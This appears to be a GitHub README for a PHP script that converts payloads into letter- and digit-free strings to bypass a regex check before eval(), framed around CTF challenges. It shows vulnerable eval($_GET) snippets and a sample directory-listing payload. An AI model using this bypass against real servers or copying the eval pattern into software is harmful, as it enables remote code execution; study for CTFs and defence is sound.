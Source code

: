 # PHP eval() with regex restriction exploit

In some CTF, or maybe real code, we seen sometimes this kind of vulnerabilies : 

```php
if( !preg_match('/[a-z]/i', $_GET['evalThis'] ) ){
	eval( $_GET['evalThis'] );
} 
```

Or the old version with the **e** option in preg_match : 

```php
if( !preg_match('/[a-z]/ie', $_GET['evalThis'] ) ){
	echo( $_GET['evalThis'] );
} 
```

The write of some payloads are very very long, like you can seen to this URL : https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/

So i'll decided to make it simple an write a script to convert, our PHP payload code to string can bypass this restriction.

## Usage 
To use it, that was simple, edit the code modify this two lines : 

```php
$payloadToEncode  = '$_=\'scandir\';$__=\'var_dump\';$__($_(\'./\'));';
$regexExcludeChar = '/[a-z]|[0-9]/i';
```
And run the php code with php-cli or in your webserveur, the php code will print at the end the full payload.

Output example :

![](img/php_eval_payload_output.png)

## todo 

* Possible to add the " caracters
* Adding time for payload generating
* Adding percent evolution for big payload
* Possibility to change the ` for the XOR
